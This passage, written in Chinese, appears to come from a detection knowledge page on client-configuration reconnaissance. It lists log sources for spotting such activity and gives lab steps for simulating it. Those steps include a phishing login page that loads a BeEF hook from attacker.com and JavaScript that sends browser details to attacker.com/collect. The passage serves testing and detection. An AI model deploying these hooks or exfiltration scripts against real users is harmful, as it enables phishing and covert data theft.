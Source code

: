 ## 检测日志
客户端配置信息收集多通过公开渠道或外部交互进行，难以直接监测。以下是可能的日志来源：
- **Web服务器日志**：
  - 记录异常的HTTP请求，如包含恶意脚本的页面访问或异常User-Agent。
- **WAF日志**：
  - 检测被WAF拦截的恶意脚本请求或钓鱼页面访问。
- **邮件服务器日志**：
  - 监控钓鱼邮件，可能与收集客户端信息的恶意链接相关。
- **网络流量日志**：
  - 检测异常的HTTP/HTTPS流量，如向外部服务器发送客户端配置数据。
- **端点日志**：
  - 记录浏览器或客户端设备的异常行为，如运行未知JavaScript。

## 测试复现
以下是模拟客户端配置信息收集的步骤：
1. **环境准备**：
   - 在授权测试环境中搭建目标网站和钓鱼页面。
   - 配置BeEF服务器或自定义JavaScript脚本。
2. **信息收集**：
   - 部署BeEF：
     ```bash
     sudo apt install beef-xss
     beef-xss
     # 启动BeEF服务器，默认监听http://localhost:3000
     ```
   - 创建钓鱼页面，嵌入BeEF脚本：
     ```html
     <html>
     <head><title>Login</title></head>
     <body>
         <h1>TargetCorp Login</h1>
         <script src="http://attacker.com:3000/hook.js"></script>
     </body>
     </html>
     ```
   - 使用JavaScript收集客户端信息：
     ```javascript
     var info = {
         userAgent: navigator.userAgent,
         platform: navigator.platform,
         language: navigator.language
     };
     fetch('http://attacker.com/collect', { method: 'POST', body: JSON.stringify(info) });
     ```
3. **社会工程模拟**：
   - 发送钓鱼邮件，诱导员工访问包含恶意脚本的页面。
4. **结果分析**：
   - 在BeEF控制面板查看收集到的客户端信息（如操作系统、浏览器版本）。
5. **日志收集**：
   - 收集Web服务器、WAF和网络流量日志，验证脚本执行或数据外传痕迹。
